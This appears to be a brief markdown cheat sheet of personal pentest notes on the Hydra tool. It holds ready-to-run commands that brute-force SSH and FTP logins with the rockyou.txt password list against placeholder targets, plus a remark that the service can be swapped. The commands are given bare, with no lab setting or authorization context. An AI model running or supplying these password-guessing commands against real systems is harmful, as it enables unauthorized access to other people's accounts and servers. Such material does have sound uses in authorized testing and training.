 # Hydra

## Brute Force SSH using a USERNAME.
    hydra -l <username> -P /home/rodney/MyWordlists/rockyou.txt ssh://<IPtarget>
    
## Brute Force SSH using a USERLIST and PASSLIST.
    hydra -L <userlist.txt> -P /home/rodney/MyWordlists/rockyou.txt ssh://<IPtarget>    
    
Service can be change:

## Brute Force FTP using a USERLIST and PASSLIST.
    hydra -L <userlist.txt> -P /home/rodney/MyWordlists/rockyou.txt FTP://<IPtarget>    
